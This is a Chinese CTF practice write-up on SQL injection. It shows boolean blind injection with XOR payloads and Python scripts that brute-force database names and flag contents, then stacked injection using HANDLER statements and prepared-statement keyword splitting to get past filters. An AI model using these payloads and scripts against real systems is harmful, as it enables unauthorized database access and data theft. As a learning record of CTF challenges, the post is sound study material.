 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      对于多种sqli的练习与总结(二)               # 标题 
subtitle:   实操加强对sqli的熟悉度
date:       2020-04-02             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00布尔盲注：
首先进入页面，比较特殊，通常来说都是全都点一下吧，然后框框里的数字点的时候返回的url`/?id=1`引起我的注意，但是我们还是先测试一下登录功能：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdffeunetaj30lg0etn3o.jpg)  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdffexlr91j30jk0fvq8v.jpg)  
居然用户名出现单引号都直接被揪出来了，那么在这里猜想一下，是否对用户名和密码都进行了严格的过滤，fuzz一下吧：  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdfff4l275j30zy0mbq5u.jpg)  
恩看来这里sql注入的可能性很低了，此时那几个框框的url倒是值得去尝试一下，首先填入id=6：  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdfff7lkyhj30kz0dxjwh.jpg)  
咦显示不存在这个表，有点意思，继续测试填入id=7：  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdfffl9exfj30l50fhafu.jpg)  
这个时候回显又不同了，继续测试一下8/9/10，不存在的话会返回error页面，存在的话会返回正常页面：前面提到表，难道是根据id查表，然后回显内容嘛？
鉴于习惯，测试一下id=0：  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdfffl9exfj30l50fhafu.jpg)  
收集到的信息为，id=0：error！！！，这个时候条件符合我们的布尔盲注了，payload构造返回1，就是正常页面，返回0，就是error！！！页面。那么接下来尝试一下子盲注：  
构造payload：`1^1^1`以及`1^0^1`：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfffpvof8j30dh07f3yl.jpg)
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdffft7r6lj30cl08it8w.jpg)  
这下子好了，布尔盲注可以进行下一步了：    
手工进行一下`1^(length(select(database())>n)^1`:   
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfffwj2a4j30dz05vdft.jpg)   
咦怎么不行，那就试试这个语句：`1^(length(database())>1^1`：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdffg3cgstj30g406vmxa.jpg)   
好成功了，写个小脚本来爆破一下数据库名长度：  
```
# for i in range(1,20):
    #     temp["id"] = "1^(length(database())>"+str(i)+")^1"
    #     r=requests.get(url,temp)
    #     if "ERROR!!!" in r.text:
    #         print("length:"+str(i))
    #         break;
```
结果为：length=4   
那么接下来就开始爆破库名，字段名，：  
payload构造为：    
`1^(ascii(substr((select(database())),%d,1))>%d)^1`  
下面语句稍微修改一下即可爆字段名了：  
`1^(ascii(substr((selcect(group_concat(table_name))from(information_schema.tables)where(table_schema='geek'))),i,1))>m)^1`  
下面的为二分法爆表的字段内容,由于用来做过其他题目，可能部分地方需要自己恰当修改一下，可参考思路(get和post差不多），同样上面爆破字段名，表名，数据库名也用二分法快速爆破：  
```
url = "http://xxxxxxxxx/xxxxx"
temp = {"id":""}
tablename=''
# for i in range(1,50):
    #     low = 31
    #     high =128
    #     mid = (low+high)//2
    #     while(low<high):
    #         temp['id'] = "1^(ascii(substr((select(flag)from(flag)),%d,1))>%d)^1" %(i,mid)
    #         r = requests.post(url,data=temp)
    #         if "Hello" in r.text:
    #             low=mid+1
    #         else:
    #             high=mid
    #         mid = (low + high) // 2
    #     tablename+=chr(mid)
    #     print(chr(mid))
    # print(tablename)
```
**总结一下：**  
 > 本次练习中，用了sql布尔盲注，盲注思维得到了一定的训练，旨在能够准确找到盲注点，通过页面响应判断是否存在以及寻找页面识别点，这样就能进行下去，如果盲注部分使用词汇被过滤，可以查找一下替代的词语，
 许多大表哥也有总结，自己要善于去汲取人家的精华和总结，这样能让自己更快的学习到相关的知识，而不是盲目的去试，到了一定程度相信自己也能很好的掌握技巧。

## 0x01堆叠注入的另外一些用法（强网杯-随便注）：  
首先看看页面：输入0-10看看反馈是些啥，  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdfhvtf1ayj30bb079t8q.jpg)  
这里大概说一下情况，就是输入1/2/3这个数字有回显，然后其他数字都会复位为1.接下来测试一下闭合情况，单引号走起：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfhy52t13j30cw02vt8h.jpg)  
应该是单引号闭合了，尝试了一下1';#和1'#，还有加上and 1=1# 和and 1=2#测试，都是可以正常查询到1，接下来就试堆叠注入(1';select database();#)：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfhvwqveuj30j80360sk.jpg)  
这个时候看到正则匹配，select和where都被过滤了，导致联合注入，报错注入，盲注都可能无效，那么想到预编译和另外一种handler语法，刚刚错误回显是mysql数据库。  
使用之前先看看能不能拿到表名，show databases；show tables；构造payload：-1';show tables;#  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfhw5oi83j30ah06f3yd.jpg)  
拿到了，然后尝试handler语法吧,有挺多过程没有展现出来，本次记录重点拓展了其他语法在sql的使用，在查询数据库名，和表名还有字段名的时候还是挺简单的：  
```
handler `1919810931114514` open;
handler `1919810931114514` read first;
handler `1919810931114514` close;
```  
接下来还有预编译的使用：  
Set @try = concat('sele','ct * from `1919810931114514`;');  
Prepare stmt from @try;  
execute stmt;  
deallocate Prepare;  
尝试一下：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdfhw9chmtj30cs01tjr5.jpg)  
还有过滤，这次是strstr函数，由于此函数不能区分大小写，所以我们进行大小写绕过即可成功达到目的。    
总结一下：我们在sql注入的尝试过程中，目前来说是有这些多样化的方法，在不断的学习中去掌握它，并且理解原理能帮助我们更好的进行测试，在这个菜鸟阶段吧，还是要多多向师傅们学习，挺舒服的，给自己的建议，多点去寻找学习新的知识，勇于去尝试，加油。








